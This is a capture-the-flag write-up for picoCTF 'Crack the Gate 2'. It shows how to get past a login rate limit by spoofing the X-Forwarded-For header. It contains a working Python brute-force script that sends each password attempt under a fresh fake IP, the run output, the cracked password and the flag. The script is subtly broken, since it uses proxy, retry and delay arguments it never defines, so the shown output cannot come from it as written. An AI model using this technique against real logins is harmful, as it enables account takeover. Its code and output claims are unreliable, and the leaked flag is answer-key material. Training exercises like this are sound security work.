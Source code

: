 ---
tags: [picomini-by-cmu-africa]
---
# Crack the Gate 2

- **Description:** The login system has been upgraded with a basic rate-limiting mechanism that locks out repeated failed attempts from the same source. 
We've received a tip that the system might still trust user-controlled headers. 
Your objective is to bypass the rate-limiting restriction and log in using the known email address: ctf-player@picoctf.org and uncover the hidden secret.


---

## 🔎 Solution
This challenge was a common web CTF scenario: the target employed rate-limiting based on the request source", but trusted client-controlled headers (for example, `X-Forwarded-For`). 
The general idea to bypass the restriction was simple - perform each attempt appearing to originate from a different source by injecting a header value under our control.

First, we needed to determine which header the server used to identify the source. 
To test this, we added a header such as `X-Forwarded-For: 1.2.3.4` and observed the server's response. 
The reply differed from the baseline behavior. 
<div style={{ width: '100%', margin: '0 auto' }}>
  <img src={require("./false.png").default} style={{ width: '100%', height: 'auto' }} />
</div>
When we retried requests using that same IP value, the server began blocking them, whereas requests using other IP values were allowed. 
From this behaviour we could infer that the server was relying on the `X-Forwarded-For` value to identify and, if necessary, block a source.

The task provided a small word list containing 20 possible passwords. 
The objective became: brute-force those 20 passwords while presenting each password attempt as coming from a different IP address. 
One obvious approach would be to use **Burp Suite Intruder** with a *cluster-bomb attack* mode, pairing password candidates with varying `X-Forwarded-For` values. 
However, because Intruder felt slow in this instance, I opted for a different method.

I implemented a lightweight script to automate the process. 
The script generated distinct IP values, issued POST requests to `/login` with each password attempt and the corresponding injected header, and examined the responses. 
Any response containing the string **pico** was treated as a likely positive indicator (a possible flag-containing response).
```python
#!/usr/bin/env python3
import argparse, requests, random, time, sys, json

def rand_ip():
    return f"201.0.113.{random.randint(1,254)}"

def detect_success(resp, success_indicator, success_statuses):
    if success_indicator and success_indicator in resp.text:
        return True
    if success_statuses and resp.status_code in success_statuses:
        return True
    if resp.status_code in (302,303):
        return True
    return False

def main():
    p = argparse.ArgumentParser()
    p.add_argument('--wordlist', required=True)
    p.add_argument('--url', required=True, help='full login URL e.g. http://host:port/login')
    p.add_argument('--email', required=True)
    p.add_argument('--success-indicator', default=None, help='string to look for on success (optional)')
    p.add_argument('--success-status', type=int, nargs='*', default=[], help='HTTP status code(s) considered success')
    args = p.parse_args()

    proxies = {"http": args.proxy, "https": args.proxy} if args.proxy else None
    session = requests.Session()
    session.verify = True

    with open(args.wordlist, 'r', encoding='utf-8', errors='ignore') as f:
        passwords = [line.strip() for line in f if line.strip()]

    print(f"[+] loaded {len(passwords)} passwords")

    for i, pwd in enumerate(passwords, 1):
        xff = rand_ip()
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
            "Accept": "*/*",
            "Content-Type": "application/json",
            "Origin": "http://amiable-citadel.picoctf.net:55007/",
            "Referer": "http://amiable-citadel.picoctf.net:55007/",
            "X-Forwarded-For": xff,
            "X-Real-IP": xff
        }
        payload = {"email": args.email, "password": pwd}
        tries = 0
        resp = None
        while tries < args.max_retries:
            tries += 1
            try:
                resp = session.post(args.url, headers=headers, data=json.dumps(payload), proxies=proxies, timeout=15, allow_redirects=False)
                break
            except Exception as e:
                print(f"[!] network error (try {tries}) for pwd='{pwd}': {e}")
                time.sleep(1)
        if resp is None:
            continue

        print(f"[{i}/{len(passwords)}] pwd='{pwd}' XFF={xff} -> status={resp.status_code} len={len(resp.text)}")

        if detect_success(resp, args.success_indicator, args.success_status):
            print("=== POSSIBLE SUCCESS ===")
            print("Password:", pwd)
            print("X-Forwarded-For:", xff)
            print("Status:", resp.status_code)
            print("Response snippet:\n", resp.text[:2000])
            return

        time.sleep(args.delay)

    print("[*] done. no success detected.")

if __name__ == "__main__":
    main()
```
The experiment succeeded: the correct password turned out to be `X68f2Ftm`, and from the resulting response we recovered the flag.
```
> python script.py --wordlist passwords.txt --url "http://amiable-citadel.picoctf.net:55007/login" --email ctf-player@picoctf.org --success-indicator "pico"
[+] loaded 20 passwords
[1/20] pwd='H3ZdQe9D' XFF=201.0.113.211 -> status=200 len=17
[2/20] pwd='4s8RNXkB' XFF=201.0.113.134 -> status=200 len=17
[3/20] pwd='G9YKC9r1' XFF=201.0.113.12 -> status=200 len=17
[4/20] pwd='J49Q5uuo' XFF=201.0.113.205 -> status=200 len=17
[5/20] pwd='ZARenM3b' XFF=201.0.113.27 -> status=200 len=17
[6/20] pwd='X68f2Ftm' XFF=201.0.113.43 -> status=200 len=132
=== POSSIBLE SUCCESS ===
Password: X68f2Ftm
X-Forwarded-For: 201.0.113.43
Status: 200
Response snippet:
 {"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{xff_byp4ss_brut3_3477bf15}"}
```

## 🚩Flag
> `picoCTF{xff_byp4ss_brut3_3477bf15}`